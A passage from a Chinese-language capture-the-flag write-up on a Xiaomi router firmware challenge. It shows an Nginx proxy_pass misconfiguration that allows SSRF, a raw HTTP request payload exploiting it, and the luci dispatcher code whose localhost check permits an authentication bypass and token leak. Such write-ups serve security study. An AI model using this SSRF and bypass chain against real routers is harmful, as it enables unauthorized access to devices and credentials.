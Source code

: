 我们可以总结出小米路由器系统大概存在以下几个问题：
- Nginx的配置经常出问题，不乏一些十分严重的配置错误信息
- 小米路由器会存在一些Token泄露的问题
- 小米路由器存在后台鉴权绕过
- 小米路由器使用的是OpenWRT改的系统，采用的图形管理页面也是luci，所以luci采用的lua脚本逻辑控制代码中，应该会存在许多的逻辑处理问题
我们发现长亭的一些漏洞已经被Patch过了，也就是我们手上的固件是已经被修改过的，那么我们这个赛题应该是预埋了漏洞的题目。虽然已经Patch过了，但是我发现很多的lua文件是没有被修改过的，也就是还存在着可以利用的点

### <a class="reference-link" name="2.2%20%E5%BC%80%E5%A7%8B%E6%8C%96%E6%8E%98%E4%B8%8E%E5%88%A9%E7%94%A8"></a>2.2 开始挖掘与利用

首先在固件路径/etc/sysapihttpd/sysapihttpd.conf的Nginx配置文件中第361行开始

```
server `{`

    location / `{`
        proxy_pass http://$http_host$request_uri;
    `}`
`}`
```

变量”$http_host”可以包含不受信任的用户输入，导致存在SSRF攻击，SSRF攻击的Payload如下（可以造成SSRF攻击的端口

```
GET / HTTP/1.1
Host: 127.0.0.1:8960
Pragma: no-cache
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: */*
Referer: http://192.168.31.1/cgi-bin/luci/web
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: __guid=86847064.961667553213477100.1625900926845.912; monitor_count=1
Connection: close
```

当成功利用SSRF攻击后，我们还发现luci程序api接口中存在可以绕过鉴权泄露token的漏洞

在\usr\lib\lua\luci\dispatcher关于鉴权的判断，也就是在631行中isremote的判断中存在可以绕过的逻辑，只要`ip == "127.0.0.1" and host == "localhost"`，即可绕过验证

```
local isremote = ip == "127.0.0.1" and host == "localhost"
if _sdkFilter(track.flag) and not isremote then
    local sdkutil = require("xiaoqiang.util.XQSDKUtil")
    if not sdkutil.checkPermission(getremotemac()) then
        context.path = `{``}`
        luci.http.write([[`{`"code":1500,"msg":"Permission denied"`}`]])
            return
        end
    end
    if not isremote and not _noauthAccessAllowed(track.flag) and track.sysauth then
        local sauth = require "luci.sauth"
        local crypto = require "xiaoqiang.util.XQCryptoUtil"
        local sysutil = require "xiaoqiang.util.XQSysUtil"
        local isBinded = sysutil.getPassportBindInfo()

        local authen = type(track.sysauth_authenticator) == "function"
        and track.sysauth_authenticator
        or authenticator[track.sysauth_authenticator]

        local def  = (type(track.sysauth) == "string") and track.sysauth
        local accs = def and `{`track.sysauth`}` or track.sysauth
```